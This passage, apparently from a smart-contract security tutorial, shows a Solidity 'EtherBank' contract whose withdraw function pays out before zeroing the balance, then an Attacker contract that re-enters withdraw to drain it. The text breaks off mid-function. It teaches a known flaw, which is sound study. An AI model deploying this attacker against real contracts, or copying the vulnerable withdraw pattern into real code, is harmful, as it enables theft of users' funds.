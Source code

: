 ```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.11;

import "@openzeppelin/contracts/utils/Address.sol";

contract EtherBank {
    using Address for address payable;

    // keeps track of all savings account balances
    mapping(address => uint) public balances;

    // deposit funds into the sender's account
    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }

    // withdraw all funds from the user's account
    function withdraw() external {
        require(balances[msg.sender] > 0, "Withdrawal amount exceeds available balance.");
        payable(msg.sender).sendValue(balances[msg.sender]);
        balances[msg.sender] = 0;
    }

    // check the total balance of the EtherBank contract
    function getBalance() external view returns (uint) {
        return address(this).balance;
    }
}
```

A simple contract, that works as a normal bank does with a simple deposit and withdraw function. Access control is also followed in this contract too.

Let's see how the attacker exploits the vulnerability of withdraw function with reference to his contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.11;

interface IEtherBank {
    function deposit() external payable;
    function withdraw() external;
}

contract Attacker {
    IEtherBank public immutable etherBank;
    address private owner;

    constructor(address etherBankAddress) {
        etherBank = IEtherBank(etherBankAddress);
        owner = msg.sender;
    }

    function attack() external payable onlyOwner {
        etherBank.deposit{value: msg.value}();
        etherBank.withdraw();
    }

    receive() external payable {
        if (address(etherBank).balance > 0) {
            etherBank.withdraw();
        } else {
            payable(owner).transfer(address(this).balance);
```